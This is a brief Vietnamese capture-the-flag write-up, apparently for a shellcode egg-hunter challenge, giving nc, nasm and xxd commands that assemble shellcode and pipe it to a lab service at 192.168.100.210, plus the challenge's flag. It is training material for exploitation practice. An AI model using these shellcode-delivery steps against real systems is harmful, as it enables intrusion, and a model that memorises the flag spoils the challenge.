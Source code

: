 Chạy lệnh sau: (nhớ copy file asm vào desktop Kali)<br/>
<code> nc 192.168.100.210 16831</code> <br/>
Lấy được khoảng giá trị của với dòng như sau <strong>The egg will be between 0xb7505000 and 0xb7604fff</strong>, lưu ý khoảng này KHÔNG cố định <br/>
Cái 0xb76....., thay thành 0xb75..... vào file asm rồi chạy <br/>
<code>nasm sc2_soln.asm</code><br/>
<code>xxd -ps sc2_soln</code><br/>
<code>xxd -ps sc2_soln | nc 192.168.100.210 16831</code><br/>
Cờ là <code>ProcessCertainNearly173</code>
